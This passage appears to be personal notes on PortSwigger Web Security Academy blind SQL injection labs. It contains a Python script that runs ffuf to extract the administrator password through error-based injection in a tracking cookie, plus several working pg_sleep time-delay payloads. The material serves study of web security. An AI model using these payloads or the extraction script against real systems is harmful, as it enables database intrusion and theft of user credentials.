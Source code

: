 ```python
import os

psw_array = ''

for i in range(1,21):

    fuzzing = "ffuf -w wl.txt:FFUF -u https://ac911f0f1fa8df84c0961d8100c900a6.web-security-academy.net/filter?category=Accessories -H 'Host: ac911f0f1fa8df84c0961d8100c900a6.web-security-academy.net' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate, br' -H 'Connection: keep-alive' -H 'Referer: https://ac911f0f1fa8df84c0961d8100c900a6.web-security-academy.net/' -H \"Cookie: TrackingId=xyz'|| (SELECT CASE WHEN (SUBSTR((SELECT password from users where username = 'administrator'),1,"+str(i)+") = '"+psw_array+"FFUF') THEN to_char(1/0) ELSE NULL END FROM dual)--; session=S8fDEwm5boIASbkq1p4IbV79QQAoiflj\" -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-Fetch-Dest: document' -H 'Sec-Fetch-Mode: navigate' -H 'Sec-Fetch-Site: same-origin' -H 'Sec-Fetch-User: ?1' -mc 500 -o test.txt"
    os.system(fuzzing)
    psw_char = subprocess.check_output("cat test.txt | python -m json.tool | grep -e '\"FFUF\":' | awk '{print $2}' | sed 's/\"//g'", shell=True)
    psw_array = (psw_array+psw_char.decode('ascii')).replace("\n","")

print(psw_array)
```

## Lab: Blind SQL injection with time delays

This query is vulnerable to SQL injection, but the results from the query are not returned to the user (indeed it is Blind SQLi). However, the application does behave differently depending on whether the submitted query is correct. The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

In this case, the SQL query to be injected should be like:
```sql
TrackingId=xyz'||pg_sleep(10)--
```

## Lab: Blind SQL injection with time delays and information retrieval

Similar to the previous one but here we must infer the password of administrator as the previous sections. The right SQL query is the following:
```sql
TrackingId=xyz'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```
Another solution is:
```
TrackingId=xyz' || (SELECT CASE WHEN (SUBSTRING((SELECT password from users where username = 'administrator'),1,1) = '7') THEN pg_sleep(5) ELSE pg_sleep(0) END)--
```

Note: in general if you can get some error status, i.e., 400, try to URL encode the SQL statement.

Useful links: https://portswigger.net/web-security/sql-injection
https://portswigger.net/web-security/sql-injection/cheat-sheet
